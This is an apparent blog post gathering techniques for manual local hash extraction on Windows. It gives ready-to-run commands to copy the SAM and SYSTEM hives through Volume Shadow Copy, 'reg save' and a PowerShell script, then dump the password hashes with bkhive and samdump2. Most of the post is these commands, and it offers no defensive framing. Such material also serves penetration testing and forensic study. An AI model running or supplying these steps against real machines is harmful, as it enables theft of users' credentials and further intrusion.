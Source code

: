 title: Manual Local Hash Extraction
publish: True
categories: [network security]

There has been enough interest around the topic of manual local hash extraction that I wanted to document all of the techniques I am aware of in one place.

The SAM and SYSTEM hives hold the necessary information to acquire authentication hashes for all local users on a Windows operating system. Normally, these files are locked and inaccessible, even by the SYSTEM and Administrator accounts. The following techniques are ways to access the SAM and SYSTEM hives within a Windows operating system during normal operation. Be advised that these techniques require Administrator or SYSTEM level privileges.

### Volume Shadow Copy Service

```
vssadmin create shadow /for=c: #if required
vssadmin list shadows
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<#_from_above>\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<#_from_above>\windows\system32\config\SAM .
```

[Reference](http://pauldotcom.com/2011/11/safely-dumping-hashes-from-liv.html)

### Registry Access

```
reg save hklm\sam SAM
reg save hklm\system SYSTEM
```

[Reference](http://exfiltrated.com/tools.php#SAMExtract)

### PowerShell Script

```
$service=(Get-Service -name VSS)
if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
$volume=(gwmi win32_shadowcopy -filter "ID='$id'")
`cmd /c copy "$($volume.DeviceObject)\windows\system32\config\SAM"\`
$volume.Delete();if($notrunning -eq 1){$service.Stop()}
```

[Reference](http://www.canhazcode.com/index.php?a=4)

### Finishing the Job

Use the following commands to finish the job. Both applications are included in the Kali default tool set.

``` bash
bkhive SYSTEM keyfile
samdump2 SAM keyfile
```
